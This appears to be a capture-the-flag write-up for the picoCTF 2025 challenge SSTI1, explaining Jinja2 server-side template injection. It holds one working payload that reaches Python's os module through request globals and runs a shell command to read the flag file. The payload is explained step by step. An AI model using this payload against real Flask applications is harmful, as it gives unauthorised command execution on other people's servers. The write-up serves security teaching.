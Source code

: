 ```yaml
---
author: Nishanth Jadav
pubDatetime: 2025-03-22T12:38:05Z
modDatetime: 2025-03-22T12:38:05Z
title: picoCTF 2025 - SSTI1
slug: picoctf-2025-SSTI1
featured: true
draft: false
tags:
  - web
  - picoCTF2025
  - easy
description: A writeup for the web exploitation challenge SSTI1
---
```


## Table of contents

## Challenge-Information 

100 Points

Tags: picoCTF 2025, Web Exploitation, browser_webshell_solvable

Author: VENAX

Challenge Link: https://play.picoctf.org/practice/challenge/492

## Explanation
# CTF Write-Up: Jinja2 Web Exploit

## Background

In this CTF challenge, the goal was to exploit a web application using Jinja2 template injection. Jinja2 is a common templating engine for Python that allows developers to inject variables and execute Python code within templates. Exploiting Jinja2 vulnerabilities often involves creating payloads that manipulate the template engine to execute arbitrary commands.

## Challenge Description

The challenge provided a web application vulnerable to Jinja2 template injection. The objective was to read the contents of a file located at `/challenge/flag` on the server.

## Exploitation Strategy

### Understanding Jinja2 Injection

Jinja2 allows access to global variables through the `__globals__` attribute of the `application` object in Flask applications. By leveraging this feature, it's possible to access built-in Python functions such as `__import__` and subsequently execute commands.

### Payload Breakdown

The payload used for this exploit was:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read() }}
```

Let's examine this more closely starting with:
```
{{ ... }}
```

This is a Jinja2 expression, used to evaluate and render dynamic content in a template. 

```
request.application
```

This line accesses the ```application``` attribute of the ```request``` object.

```
.__globals__
```

Retrieves the global namespace, which contains built-in objects and functions.

```
.__builtins__
```

Accesses Python's built-in functions and modules.

```
.__import__('os')
```

Dynamically imports the ```os``` module, which allows interaction with the operating system. Note: commands like this one are obviously vulnerable to exploits, and were blacklisted in the more difficult, part 2 of this problem, SSTI2.

And now, accessing the flag with: 
```
.popen('cat /challenge/flag')
```

Executes the shell command: 
```
cat /challenge/flag
```

Reading the contents of the file ```/challenge/flag```

And lastly,
```
.read()
```

Reads and **returns the output** of the executed command.

## References
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

